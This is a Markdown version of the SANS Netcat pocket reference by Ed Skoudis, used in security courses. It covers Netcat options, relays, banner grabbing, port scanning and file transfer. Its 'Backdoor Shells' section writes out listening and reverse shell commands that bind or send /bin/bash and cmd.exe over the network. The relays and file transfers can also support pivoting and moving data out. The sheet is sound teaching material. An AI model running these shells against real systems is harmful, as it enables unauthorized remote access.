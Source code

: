 # 🧪 Netcat Cheat Sheet

**Author**: Ed Skoudis  
**Source**: SANS Pocket Reference Guide  
**Use Cases**: Tailored to SANS 504, 517, 560

---

## 🚀 Netcat Command Syntax

```bash
$ nc [options] [TargetIPaddr] [port(s)]
```

- `TargetIPaddr`: IP or domain name (required in client mode, optional in listen mode)

### Common Options

| Option | Description |
|--------|-------------|
| `-l`   | Listen mode |
| `-L`   | Persistent listen (Windows only) |
| `-u`   | Use UDP instead of TCP |
| `-p`   | Specify local port |
| `-e`   | Execute program on connection |
| `-n`   | No DNS resolution |
| `-z`   | Zero-I/O (port scanning) |
| `-wN`  | Timeout in seconds |
| `-v`   | Verbose |
| `-vv`  | Very verbose |

---

## 📦 Netcat Fundamentals

**Client:**
```bash
$ nc [TargetIPaddr] [port]
```

**Listener:**
```bash
$ nc -l -p [LocalPort]
```

---

## 🔁 Netcat Relays (Windows)

**Listener-to-Client Relay:**
```cmd
C:\> echo nc [TargetIP] [port] > relay.bat
C:\> nc -l -p [LocalPort] -e relay.bat
```

**Listener-to-Listener Relay:**
```cmd
C:\> echo nc -l -p [Port2] > relay.bat
C:\> nc -l -p [Port1] -e relay.bat
```

**Client-to-Client Relay:**
```cmd
C:\> echo nc [NextHopIP] [port2] > relay.bat
C:\> nc [PrevHopIP] [port1] -e relay.bat
```

---

## 🔁 Netcat Relays (Linux)

### Create FIFO
```bash
$ cd /tmp
$ mknod backpipe p
```

**Listener-to-Client Relay:**
```bash
$ nc -l -p [LocalPort] 0<backpipe | nc [TargetIP] [port] | tee backpipe
```

**Listener-to-Listener Relay:**
```bash
$ nc -l -p [Port1] 0<backpipe | nc -l -p [Port2] | tee backpipe
```

**Client-to-Client Relay:**
```bash
$ nc [PrevHopIP] [port1] 0<backpipe | nc [NextHopIP] [port2] | tee backpipe
```

---

## 💻 TCP Banner Grabbing

```bash
$ echo "" | nc -v -n -w1 [TargetIP] [start_port]-[end_port]
```

Optional:
- `-r`: Randomize destination ports
- `-p [port]`: Source port

---

## 🛠️ Backdoor Shells

**Listening Backdoor Shell (Linux):**
```bash
$ nc -l -p [LocalPort] -e /bin/bash
```

**Listening Backdoor Shell (Windows):**
```cmd
C:\> nc -l -p [LocalPort] -e cmd.exe
```

**Reverse Shell (Linux):**
```bash
$ nc [YourIP] [port] -e /bin/bash
```

**Reverse Shell (Windows):**
```cmd
C:\> nc [YourIP] [port] -e cmd.exe
```

---

## 📁 File Transfers

**Send File (client to listener):**
```bash
Listener: $ nc -l -p [LocalPort] > [outfile]
Sender:   $ nc -w3 [TargetIP] [port] < [infile]
```

**Retrieve File (listener to client):**
```bash
Listener: $ nc -l -p [LocalPort] < [infile]
Client:   $ nc -w3 [TargetIP] [port] > [outfile]
```

---

## �� TCP Port Scanner

```bash
$ nc -v -n -z -w1 [TargetIP] [start_port]-[end_port]
```

Optional:
- `-r`: Randomize ports

---

**Converted by: Christen Reinhart**  
**Source: SANS Netcat Cheat Sheet (Ed Skoudis)**  
